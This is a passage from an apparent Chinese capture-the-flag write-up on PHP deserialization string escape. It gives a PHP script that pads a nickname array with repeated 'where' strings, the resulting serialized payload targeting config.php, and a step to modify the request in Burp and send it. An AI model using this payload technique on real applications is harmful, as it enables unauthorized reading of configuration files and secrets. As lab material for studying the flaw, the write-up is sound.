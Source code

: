 正常来说我们的序列化payload如下

```bash
O:1:"b":4:{s:5:"phone";s:11:"12345678901";s:5:"email";s:10:"123@qq.com";s:8:"nickname";a:1:{i:0;s:3:"123";}s:5:"photo";s:10:"config.php";}
```

经过以上分析，写出如下序列化代码：

```php
<?php

class b
{
	public $phone = "12345678901";
	public $email = "123@qq.com";
	public $nickname = array("wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere");
	public $photo = "config.php";
}
$a=new b();
$profile = serialize($a);
echo $profile;

?>
```

生成payload：

```bash
O:1:"b":4:{s:5:"phone";s:11:"12345678901";s:5:"email";s:10:"123@qq.com";s:8:"nickname";a:1:{i:0;s:170:"wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```

bp抓包修改，然后发送：

![](img/1/2.png)
